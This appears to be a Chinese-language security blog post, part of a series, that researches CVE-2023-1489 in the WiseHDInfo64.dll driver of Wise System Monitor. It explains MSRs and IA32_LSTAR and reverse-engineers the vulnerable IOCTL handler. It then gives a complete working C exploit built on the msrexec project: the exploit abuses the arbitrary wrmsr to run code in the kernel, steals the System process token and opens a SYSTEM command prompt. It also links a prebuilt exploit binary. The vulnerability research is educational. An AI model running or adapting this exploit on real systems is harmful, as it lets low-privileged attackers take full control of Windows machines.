





# 【第 19 話】CVE-2023-1489 研究－任意 wrmsr 到任意執行

## 文章大綱
這篇要介紹 wrmsr 這個在驅動程式中使用的指令，然後透過 CVE-2023-1489 說明如果一個驅動程式讓低權限的 Process 任意使用 wrmsr 會讓攻擊者可以任意執行，最後利用漏洞配合 msrexec 專案達成提權。


## MSR
MSR 是 CPU 的一組 64 位元暫存器，用於存儲處理器或系統的特定配置和性能信息。這些 MSR 可以用來控制 CPU 的行為，監視性能，並提供有關 CPU 狀態的資訊。

在 Windows 驅動程式中要讀取 MSR 的某個 `Register` 的值是用 [__readmsr](https://learn.microsoft.com/zh-tw/cpp/intrinsics/readmsr?view=msvc-170)。

```c
__int64 __readmsr(
   int register
);
```

寫入 MSR 則是用 [__writemsr](https://learn.microsoft.com/zh-tw/cpp/intrinsics/writemsr?view=msvc-170) 將值寫入 `Register`。

```c
void __writemsr(
   unsigned long Register,
   unsigned __int64 Value
);
```

這篇會將重點放在 `IA32_LSTAR`（0xC0000082）這個 `Register`，`IA32_LSTAR` 中存放 `KiSystemCall64` 的函數位址，在系統呼叫 System Call 時會把 `IA32_LSTAR` 的值給 RIP。

在 WinDbg 輸入指令 [rdmsr](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/rdmsr--read-msr-)、[wrmsr](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/wrmsr--write-msr-) 可以讀寫 MSR 的值，讀取 0xC0000082 得到一個函數位址。然後輸入指令 `u` 反組譯這個位址就可以得到  `KiSystemCall64`，其中 [u](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/debugger/u--unassemble-) 代表 Unassemble。

```
kd> rdmsr 0xC0000082
msr[c0000082] = fffff803`e4370980

kd> u fffff803`e4370980
nt!KiSystemCall64:
fffff803`e4370980 0f01f8          swapgs
fffff803`e4370983 654889242510000000 mov   qword ptr gs:[10h],rsp
fffff803`e437098c 65488b2425a8010000 mov   rsp,qword ptr gs:[1A8h]
fffff803`e4370995 6a2b            push    2Bh
fffff803`e4370997 65ff342510000000 push    qword ptr gs:[10h]
fffff803`e437099f 4153            push    r11
fffff803`e43709a1 6a33            push    33h
fffff803`e43709a3 51              push    rcx
```


## 介紹 CVE-2023-1489
看看 [CVE-2023-1489](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1489) 在 MITRE 的描述。

A vulnerability has been found in Lespeed WiseCleaner Wise System Monitor 1.5.3.54 and classified as critical. Affected by this vulnerability is the function 0x9C402088 in the library WiseHDInfo64.dll of the component IoControlCode Handler. The manipulation leads to improper access controls. The attack needs to be approached locally. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-223375.

直接用列點的方式抓重點。
- 軟體：Lespeed WiseCleaner Wise System Monitor 1.5.3.54
- 元件：WiseHDInfo64.dll
- 漏洞位置：IOCTL Handler
- 影響：Improper Access Controls

從我的 GitHub 下載 [WiseHDInfo64.dll](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1489/bin/WiseHDInfo64.dll)。對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 WiseHDInfo64.dll 的數位簽章資訊，是 2017 年 7 月 3 日的簽章。要注意的是，雖然檔案副檔名是 dll，但它實際上是個驅動程式。




## 逆向分析
開啟 IDA 分析 `DriverEntry`，可以找到 IOCTL Handler 和 Symbolic Link Name `WiseHDInfo`。



跟進去分析 IOCTL Handler，在 IoControlCode 0x9C402088 程式呼叫了一個函數，我將它取名為 `ArbitraryWriteMsr`。



再跟進 `ArbitraryWriteMsr`，就來到漏洞的地方，攻擊者可以任意使用 `__writemsr`，因為它的參數可控。




## 攻擊腳本
現在我們可以從應用層透過漏洞任意 wrmsr，接下來我們要搭配 [_xeroxz/msrexec](https://git.back.engineering/_xeroxz/msrexec) 專案達到提權。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2023-1489)。

### msrexec 原理
整個 msrexec 的專案的細節很多，這篇會比較多注重在如何應用，這裡簡單說明原理。

1. 從 ntoskrnl.exe 找繞過 SMEP、SMAP 等保護機制的 ROP Gadget 和一些需要用的 Kernel API 位址
2. 利用任意 wrmsr 漏洞改 `IA32_LSTAR` 成 ROP Gadget
3. 在 Kernel 執行存在應用層的任意程式
4. 處理 System Call 與回復原本系統狀態

### 寫程式
程式主要是改 msrexec 的，我改了裡面觸發任意 wrmsr 的部分，換成利用 WiseHDInfo64.dll 的漏洞，並且寫提權的邏輯，然後加上一些註解。

流程分成三個步驟
1. 實作任意使用 wrmsr 的函數
    - 取得 Device Handle
    - 設定 InputBuffer 後觸發 wrmsr 漏洞
2. 實作要在 Kernel 執行的任意程式
    - 從 ntoskrnl.exe 找到需要的函數位址
    - 竄改 EPROCESS Token
3. 彈出有 system 權限的 cmd

```c
#include "msrexec.hpp"
#include <iostream>

using ExAllocatePool_t = void* (*)(std::uint32_t, std::size_t);
using PsLookupProcessByProcessId_t = NTSTATUS (*)(HANDLE, PVOID*);

int __cdecl main(int argc, char** argv)
{
    // 1. 實作任意使用 wrmsr 的函數
    writemsr_t _write_msr = [&](std::uint32_t reg, std::uintptr_t value) -> bool
    {
        struct DATA_9C402088
        {
            unsigned long Register;
            unsigned long Value_low;
            unsigned long Value_high;
        };

        // 取得 Device Handle
        HANDLE hDevice =
            CreateFile(L"\\\\.\\WiseHDInfo", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);

        // 設定 InputBuffer 後觸發 wrmsr 漏洞
        DWORD dwWrite;
        DATA_9C402088 data;
        data.Register = reg;
        data.Value_low = value & 0xffffffff;
        data.Value_high = (value >> 32) & 0xffffffff;
        DeviceIoControl(hDevice, 0x9C402088, &data, sizeof(data), NULL, 0, &dwWrite, NULL);

        return true;
    };
    vdm::msrexec_ctx msrexec(_write_msr);

    // 2. 實作要在 Kernel 執行的任意程式
    DWORD pid = GetCurrentProcessId();
    msrexec.exec(
        [pid](void* krnl_base, get_system_routine_t get_kroutine) -> void
        {
            // 因為是在程式是放在應用層，所以無法直接呼叫 Kernel API，要先從 ntoskrnl.exe 找到需要的函數位址
            const auto ExAllocatePool = reinterpret_cast<ExAllocatePool_t>(get_kroutine(krnl_base, "ExAllocatePool"));
            const auto PsLookupProcessByProcessId =
                reinterpret_cast<PsLookupProcessByProcessId_t>(get_kroutine(krnl_base, "PsLookupProcessByProcessId"));

            // 把當前 Process 的 EPROCESS Token 竄改為 System 的 EPROCESS Token
            PVOID* ppEprocess = (PVOID*)ExAllocatePool(NULL, 0x8);
            PsLookupProcessByProcessId((HANDLE)4, ppEprocess);
            DWORD64 systemToken = *(DWORD64*)(*(DWORD64*)ppEprocess + 0x358) & 0xfffffffffffffff0;
            PsLookupProcessByProcessId((HANDLE)pid, ppEprocess);
            *(DWORD64*)(*(DWORD64*)ppEprocess + 0x358) = systemToken;
        });

    // 3. 彈出有 system 權限的 cmd
    system("cmd");
}
```


## 測試
開啟 VM 載入 [WiseHDInfo64.dll](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1489/bin/WiseHDInfo64.dll)，接著執行 [CVE-2023-1489.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1489/bin/CVE-2023-1489.exe)，之後就會跳出 system 權限的 cmd。




## 參考資料
- [CVE-2023-1489 MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1489)
- [zeze-zeze/WindowsKernelVuln CVE-2023-1489](https://github.com/zeze-zeze/WindowsKernelVuln/tree/master/CVE-2023-1489)
- [_xeroxz/msrexec](https://git.back.engineering/_xeroxz/msrexec)
- [AMD rdmsr wrmsr 指令](https://www.cnblogs.com/yanli0302/p/11642570.html)
- [__readmsr](https://learn.microsoft.com/zh-tw/cpp/intrinsics/readmsr?view=msvc-170)
- [__writemsr](https://learn.microsoft.com/zh-tw/cpp/intrinsics/writemsr?view=msvc-170)
- [ITS OKAY TO BE OLD DRIVER](https://s.itho.me/ccms_slides/2021/5/13/26d82ee0-5685-472e-9c4b-453ed6c2d858.pdf)